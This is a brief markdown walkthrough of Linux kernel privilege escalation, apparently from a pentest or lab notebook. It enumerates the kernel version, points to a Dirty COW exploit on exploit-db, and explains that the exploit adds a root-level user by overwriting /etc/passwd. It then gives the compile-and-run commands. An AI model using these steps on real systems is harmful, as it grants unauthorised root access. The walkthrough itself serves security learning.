

# Kernel Exploit

start with `whoami` to know user

then Enumerate kernel version and architecture.

```bash
uname -a

Linux debian 2.6.32-5-amd64
```

we found this version is vulnerable to Kernel exploit [https://www.exploit-db.com/exploits/40839](https://www.exploit-db.com/exploits/40839)

## **What’s DIRTY COW ?**

This code is an **exploit** that uses a famous Linux vulnerability called **Dirty COW** (COW means "Copy-On-Write"). The idea is that it lets a normal user (non-root) **write to files** that should be **read-only**, like `/etc/passwd`.

which use exploit build on **pokemon exploit** and It saves a backup of the original `/etc/passwd` file at `/tmp/passwd.bak`—just in case. then add a user with **UID 0 Root privilege**

<figure><figcaption></figcaption></figure>

```bash
gcc -lpthread c0w.c -o cow
./cow
passwd
```
